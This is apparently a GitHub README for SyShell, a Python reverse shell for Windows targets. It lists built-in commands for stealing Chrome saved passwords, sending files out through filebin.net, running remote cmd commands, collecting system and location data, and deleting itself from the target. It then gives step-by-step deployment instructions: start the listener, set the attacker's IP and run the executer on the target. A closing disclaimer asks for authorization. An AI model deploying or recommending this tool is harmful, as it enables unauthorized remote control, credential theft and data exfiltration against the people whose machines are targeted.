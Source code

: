 # SyShell
⚒️ A simple but fully working reverse shell with built-in commands made in Python. ⚒️


## About
SyShell is a reverse shell that offers pre-built commands while also offering complete control over the machine, specifically built for `Windows` systems (Executer). The listener (Syshell_listener.py) has been tested on both Windows and Linux, both work perfectly. 

![SyShell Menu.](images/syshell1.jpg)


## Commands
- `exit` : Exits.
- `getip`: Retrieves general location.
- `sysinfo` : Retrieves System informations.
- `filebin` :  Instead of DIRECTLY uploading from the windows machine to the host machine, we're using: https://filebin.net/ , which is an online free file upload server. Thanks to their API we are able to upload files by performing post requests. **Make sure you create a bin before using this command. Navigate to https://filebin.net/api ----> POST / Upload a file to a bin --> click "Try it out"** Then in the **bin** input, create your own custom ID, upload a test file, then  click **Execute**. Finally you can navigate to your bin by simply visiting `filebin.net/YOUR_BIN_ID` , and you now can upload files in the windows machine from your host machine using the following command:
```
filebin <YOUR BIN ID> <YOUR FILE NAME>
```
- `!browser` : Places Chrome saved passwords in a file `ShellNone_FileStandards_Chrome.txt`. 
- `cmd` : cmd offers the ability to execute cmd commands from host machine.
- `exitcmd` : To Exit cmd mode.
- `clear` : Clears The Screen.
- `!!terminus` : **Exits the session and deletes itself from the target machine.**
- `echo` : `echo <string>`
- `upload` : Currently unavailable / Doesn't work yet.
  
![SyShell Menu.](images/help.jpg)


# Deploy

First install required packages.
## Requirements
There's 2 ways to install the required packages / libraries:

1. Simply run : 
```shell
chmod +x build.sh && ./build.sh
```
2. Just use pip:
```py
pip install -r requirements.txt
```
Either will work.

Next step is to deploy.
## Start
- Firstly, start the listener on your host machine, by using: 
```py
python SyShell_Receiver.py
```
OR
```py
python3 SyShell_Receiver.py
```
- Secondly, update your IP address ( Host Machine's Address. ) , you could just run `ifconfig` (linux) or `ipconfig` on windows, and get your host's machine ip address then either run: 
```bash
chmod +x host_ip.sh && ./host_ip.sh <YOUR HOST MACHINE IP ADDRESS>
```
OR: Simply manually open up `SyShell_executer.py` and change (line 26) : 
```
host = 'HOST MACHINE IP ADDRESS'  # HOST MACHINE IP
```
- Finally, on your target machine, run `python SyShell_executer.py` or `python3 SyShell_executer.py` and you should receive a connection back:

![SyShell Menu.](images/shell.png)


# Disclaimer
Use SyShell at your own risk. The author of SyShell does not take any responsibility for any damages or misuse caused by the software. SyShell is provided as-is, without any warranties. It is expected that users of SyShell will utilize (use) it responsibly and ethically, adhering to applicable laws and regulations. By using SyShell, you agree to accept all risks associated with its use. Always ensure that you have proper authorization before using SyShell on any system.
